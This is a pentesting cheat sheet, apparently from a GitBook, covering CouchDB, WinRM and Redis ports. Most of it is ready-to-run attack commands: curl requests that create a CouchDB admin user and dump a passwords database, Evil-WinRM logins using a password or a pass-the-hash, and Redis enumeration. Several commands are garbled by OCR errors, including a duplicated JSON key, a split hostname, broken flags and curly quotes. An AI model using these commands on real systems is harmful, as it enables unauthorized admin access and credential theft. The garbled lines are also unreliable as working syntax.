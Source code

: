 {% tabs %}
{% tab title="Enumeration" %}
```
curl http://example.com:5984/
curl -X GET http://IP:5984/_all_dbs
curl -X GET http://user:password@IP:5984/_all_dbs
```
{% endtab %}

{% tab title="Create User" %}
```
curl -X PUT ‘http://localhost:5984/_users/org.couchdb.user:chenny' — data-binary ‘{ “type”: “user”, “name”: “chenny”, “roles”: [“_admin”], “roles”: [], “password”: “password” }’
```


{% endtab %}

{% tab title="Dump DB and Passwords" %}
```
curl http://127.0.0.1:5984/passwords/_all_docs?include_docs=true -u chenny:-Xpassword <ds/_all_docs?include_docs=true -u chenny:-Xpassword
curl -X GET http://user:passwords@localhost:5984/passwords
```


{% endtab %}
{% endtabs %}

## 5985/5986 - WinRM

* If 5985 is open. WinRM is running
* If 5986 is closed, then WinRM is only configed to accept HTTP connections and encryption is not enabled.

```
PS> Invoke-Command -ComputerName TARG ET -ScriptBlock { dir c:\ }
PS> EnablePSRemoting -Force
```

### [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)

```
gem install evil-winrm
evil-winrm -i 10.11.1.111 -u Administrator -p 'password1'
evil-winrm -i 10.11.1.111 -u Administrator -H 'hash-pass' -s /scripts/folder
```

## 6379 Redis

Enumerate:

* ```
  $ nmap -p6379 --script redis-info $ip
  ```

Client:

* ```
  $ redis-cli -h $ip
  ```
